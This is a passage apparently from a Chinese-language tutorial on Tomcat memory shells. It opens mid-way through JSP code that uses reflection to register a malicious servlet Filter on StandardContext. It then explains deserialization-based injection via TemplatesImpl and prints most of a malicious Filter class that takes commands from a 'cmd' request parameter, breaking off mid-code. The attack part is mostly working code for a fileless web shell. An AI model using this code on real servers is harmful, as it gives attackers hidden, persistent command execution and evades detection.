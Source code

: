 ```java
    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    standardContext.addFilterMapBefore(filterMap);


    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
    filterConfigs.put(name, filterConfig);
%>
```

#### 反序列化写入
反序列化写入时，可以用 TemplatesImpl 类来实例化恶意类，在恶意类的静态代码块中编写注入内存马的逻辑。

恶意类如下：
```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.*;
/*
Tomcat 8,9 tested
 */
public class MFTomcatFromThread implements Filter {

    private final String cmdParamName = "cmd";
    private final static String filterUrlPattern = "/*";

    static {
        try {
            final String name = String.valueOf(System.nanoTime());

            WebappClassLoaderBase webappClassLoaderBase =
                    (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();

            StandardContext standardContext;

            try {
                standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            } catch (Exception ignored) {
                Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
                field.setAccessible(true);
                Object root   = field.get(webappClassLoaderBase);
                Field  field2 = root.getClass().getDeclaredField("context");
                field2.setAccessible(true);
```